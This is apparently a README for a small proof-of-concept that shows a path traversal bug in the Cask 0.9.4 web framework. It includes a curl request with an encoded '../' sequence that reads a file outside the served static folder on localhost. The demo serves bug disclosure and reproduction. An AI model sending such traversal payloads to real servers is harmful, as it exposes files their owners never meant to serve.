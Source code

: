 # Showcasing simple path traversal issue on Cask 0.9.4

- `sbt run`
- `curl http://localhost:8080/static/%2E%2E%2Fhi.txt`
  - Outputs `Got me…` from [`hi.txt`](hi.txt) instead of `Hi!` from [`static/hi.txt`](static/hi.txt)